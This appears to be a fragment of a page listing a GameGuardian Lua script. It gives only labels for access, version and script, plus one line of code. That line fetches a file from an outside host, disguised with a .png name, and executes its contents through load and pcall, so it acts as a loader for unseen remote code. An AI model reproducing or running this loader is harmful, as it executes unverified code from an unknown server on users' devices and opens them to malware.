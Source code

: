 【访问】开放【状态】

【当前】1.0 【版本】  

【脚本】pcall(load(gg.makeRequest("https://www.kkyyds.tk/down.php/e5bfa5b7827275de6746291b1d6014c6.png").content))【链接】

